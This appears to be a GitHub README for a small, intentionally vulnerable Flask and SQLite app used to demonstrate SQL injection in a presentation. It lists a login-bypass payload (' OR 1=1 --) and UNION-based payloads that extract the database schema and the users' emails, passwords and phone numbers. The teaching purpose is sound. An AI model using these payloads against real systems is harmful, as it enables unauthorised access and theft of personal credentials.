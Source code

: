 
# Basic SQL Injection Demo
A simple web application to demonstrate basic level SQL Injection attack manually for the presentation. Some main functions: log-in, find the items with a search bar.

### Prerequisites
- Flask, Python, SQLite

### Attack
Login with a dummy account:
```
Email: minh@gmail.com
Pass: 12345
```
##### Login Form
- Blind SQLi: Perform in the log-in form with the Boolean-based SQLi technique to force the query always return TRUE in order to bypass authentication.
```
' OR 1=1 --
```
##### Search bar
-	In-band SQLi: Perform in the search bar with UNION-based SQLi technique to combine the query result to get unauthorized data from the database.
```
' UNION SELECT sqlite_version(), 2, 3 --
```
```
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table'--
```
```
' UNION SELECT email, password, phone  FROM users -- 
```
